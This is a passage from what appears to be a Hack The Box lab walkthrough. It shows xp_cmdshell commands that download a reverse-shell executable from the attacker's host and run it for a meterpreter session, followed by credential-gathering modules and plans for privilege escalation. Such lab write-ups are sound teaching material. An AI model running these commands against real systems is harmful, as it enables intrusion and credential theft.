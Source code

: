    ```bash
    python3 -m http.server 80
    ```

11. Then `wget` it in the target machine through the SQL shell. As a `sql_svc` user, we would change directory to his user folder which has enough privilege to modify the folder.

      ```bash
      SQL> xp_cmdshell "powershell -c cd C:/Users/sql_svc/Documents; wget http://10.10.14.201/winRevShell.exe -outfile winRevShell.exe; dir"
      ```

      ![](../assets/img/htb-starting-point/19.png)

12. Let's run the `winRevShell.exe`

       ```bash
       SQL> xp_cmdshell "powershell -c C:/Users/sql_svc/Documents/winRevShell.exe"
       ```

       ![](../assets/img/htb-starting-point/20.png)

       Now we receive a meterpreter session (use **help** to see commands) from the target machine!

13. The **user** flag is in the user `sql_svc` desktop, `cat` it out.

       ```bash
       meterpreter> cat C:/Users/sql_svc/desktop/user.txt
       ```

      (You can also try other commands like `run post/windows/gather/credentials/[tap Tab]` to gather credentails on Windows, `run post/multi/recon/local_exploit_suggester` to suggest exploits)

14. As we noticed that there an `Admintrator` user in the Windows machine, we are going to use **winPEAS** (Windows Privilege Escalation Awesome Script) for privilege escalation. Download winPEASx64.exe from https://github.com/carlospolop/PEASS-ng/releases, then upload it to the target.
